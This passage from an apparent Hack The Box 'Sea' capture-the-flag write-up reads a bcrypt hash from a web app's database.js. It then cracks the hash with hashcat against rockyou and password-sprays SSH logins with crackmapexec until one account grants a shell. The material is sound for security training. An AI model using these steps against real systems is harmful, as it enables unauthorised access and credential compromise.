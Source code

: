 But based on `WWW-Authenticate` header, it is somewhat restricted.

```bash
www-data@sea:/var/www/sea/data$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

There's a hash found here :
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`
I removed `\` since it seems that it's for escape.

### Crack hash

Let's try cracking it.

```bash
┌──(kali㉿kali)-[~/htb/sea]
└─$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...SNIP...

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))

...SNIP...
```

The cracked password is `mychemicalromance`.

Let's try password spray on all found user accounts.

```bash
┌──(kali㉿kali)-[~/htb/sea]
└─$ cat users.txt   
root
amay
geo
```

```bash
┌──(kali㉿kali)-[~/htb/sea]
└─$ crackmapexec ssh sea.htb -u users -p mychemicalromance --continue-on-success
SSH         10.10.11.28     22     sea.htb          [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
SSH         10.10.11.28     22     sea.htb          [-] geo:mychemicalromance Authentication failed.
SSH         10.10.11.28     22     sea.htb          [+] amay:mychemicalromance  (non root) Linux - Shell access!
SSH         10.10.11.28     22     sea.htb          [-] root:mychemicalromance Authentication failed.
```

